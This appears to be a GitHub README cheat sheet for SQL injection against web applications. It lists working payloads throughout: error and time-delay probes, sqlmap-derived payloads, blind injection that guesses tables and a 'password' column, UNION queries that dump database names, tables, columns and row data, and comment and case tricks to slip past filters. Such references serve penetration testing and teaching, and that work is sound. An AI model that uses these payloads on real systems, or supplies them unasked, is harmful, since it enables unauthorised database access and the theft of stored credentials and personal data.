# SQL-Injection-cheat-sheet
**First try to figure out vulnerable parameter**

NOTE: If it's a get request don't forget to url encode the characters.

param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error

' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns



try if above queries work by appending comment at the last

param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works




**If above queries don't work try with these sqlmap payoads:**

'.)))("),.

'ghwshP<'">CZuifw

)+AND+4287=8913+AND+(7303=7303

)+AND+8680=8680+AND+(6351=6351

+AND+4573=5119

+AND+8680=8680

')+AND+9284=3986+AND+('ndfW'='ndfW

')+AND+8680=8680+AND+('juwu'='juwu

+AND+2138=DBMS_PIPE.RECEIVE_MESSAGE(CHR(83)||CHR(102)||CHR(111)||CHR(77),5)

')+AND+2138=DBMS_PIPE.RECEIVE_MESSAGE(CHR(83)||CHR(102)||CHR(111)||CHR(77),5)+AND+('VIDM'='VIDM

(SELECT+3273+FROM(SELECT+COUNT(*),CONCAT(0x716a6a7671,(SELECT+(ELT(3273=3273,1))),0x716b717071,FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.PLUGINS+GROUP+BY+x)a)

(SELECT+CONCAT(0x716a6a7671,(SELECT+(ELT(6967=6967,1))),0x716b717071))

+AND+4920=(SELECT+UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(106)||CHR(118)||CHR(113)||(SELECT+(CASE+WHEN+(4920=4920)+THEN+1+ELSE+0+END)+FROM+DUAL)||CHR(113)||CHR(107)||CHR(113)||CHR(112)||CHR(113)||CHR(62)))+FROM+DUAL)

)+AND+7244=4397+AND+(3968=3968

)+AND+6379=6379+AND+(1483=1483

')+AND+2572=3816+AND+('alWa'='alWa

')+AND+6379=6379+AND+('mxeB'='mxeB

)+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+tsVj

+ORDER+BY+1--+UCdp

+UNION+ALL+SELECT+NULL--+UzBg

+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+ISdf

')+ORDER+BY+8048--+qQkS

')+UNION+ALL+SELECT+NULL--+TFas

')+UNION+ALL+SELECT+NULL,NULL--+EZcP

%'+ORDER+BY+1--+NSgg

%'+ORDER+BY+7605--+dZkK

%'+UNION+ALL+SELECT+NULL--+JQPp

%'+UNION+ALL+SELECT+NULL,NULL--+VtSC

+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+Lbrh

' UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6271,IFNULL(CAST(table_name AS CHAR),0x20),0x7162627671),NULL,NULL FROM INFORMATION_SCHEMA.TABLES-- sd   --> shows table_name inbetween few characers



**If nothing works try these Blind sql payloads:**

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

Guessing Table name:

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'



Guessing Columns:

' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.




**Now determine number of columns in the current table**

param=' or 1=1 order by 1#

param=' or 1=1 order by 10#



let say there are 3 columns

**Now determine vulnerable columns or column which is visible**

param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page

Else try

param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions



Now, lets say column 1,2 are shown in web page

**To futher enumerate**

param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases


param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#

Let say the database name is public and table name is info

Let the table info has two columns id and name

param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'



**BYPASSING filters**

we can use case switching or commenting to bypass normal filters such as union, select


param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql

**Useful Resources**

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

http://garage4hackers.com/showthread.php?t=1990


